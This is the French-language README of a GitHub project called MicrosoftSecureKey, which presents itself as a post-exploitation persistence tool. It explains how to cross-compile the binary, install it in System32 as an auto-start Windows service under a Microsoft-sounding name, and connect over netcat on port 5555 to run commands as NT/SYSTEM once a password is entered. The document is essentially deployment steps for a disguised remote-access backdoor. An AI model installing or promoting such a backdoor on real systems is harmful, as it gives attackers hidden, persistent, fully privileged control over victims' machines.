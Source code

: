 # MicrosoftSecureKey

🔍 MicrosoftSecureKey est un outil de post-exploitation (Pentest ou Read Team) qui permet le maintien d'accès sur un système Windows par le biais d'un mot de passe.
Il fonctionne en mode service Windows, ce qui permet d'ouvrir un port et d'exécuter des commandes à distance avec des droits NT/SYSTEM.

Comment ça marche :

 ✅ Compilation du programme 
 ✅ Installation du service sur le système distant
 ✅ Démarrage du service en mode AUTO
 ✅ Un simple netcat permet d'éxécuter des commandes.

 ⚠️ Une fois le mot de passe saisi, s'il y a un double saut de ligne cela veut dire que l'on est connecté, s'il y a un seul saut de ligne cela veut dire que la connexion a échoué.

Idéal pour les environnements contrôlés, les laboratoires de test, ou pour les administrateurs système qui veulent garder la main à distance sans passer par des solutions complexes.

Compilation :

`x86_64-w64-mingw32-gcc -o MicrosoftSecureKey.exe MicrosoftSecureKey.c -lws2_32`

Installation :

`sc create MicrosoftSecureKey binPath="C:\Windows\System32\MicrosoftSecureKey.exe" start=auto`

`sc start MicrosoftSecureKey`

Command :

`nc IP_SRV 5555`

`Enter Password`

`whoami`


## Vidéo de démonstration 
![Demontration Vidéo](https://github.com/xnom0/MicrosoftSecureKey/raw/refs/heads/main/Service.mp4)

